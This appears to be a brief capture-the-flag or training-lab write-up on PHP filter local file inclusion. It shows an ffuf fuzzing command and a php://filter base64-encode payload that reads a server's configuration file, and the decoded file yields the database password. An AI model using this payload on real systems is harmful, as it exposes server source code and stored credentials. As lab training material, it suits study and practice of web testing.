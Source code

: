 # PHP Filters

#### Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

**Step 1** - Fuzz configuration files:

* Use this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt)
* Fuzz with the following command:
  * <pre><code><strong>ffuf -w /wordlist:FUZZ -u http://SERVER_IP:PORT:/FUZZ.php
    </strong></code></pre>
* Three files found

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Use PHP Filters to read the file content:

* php://filter/read=convert.base64-encode/resource=**configure**

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Read the previous base64 string:

* `echo 'base64 string' | base64 -d`&#x20;

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
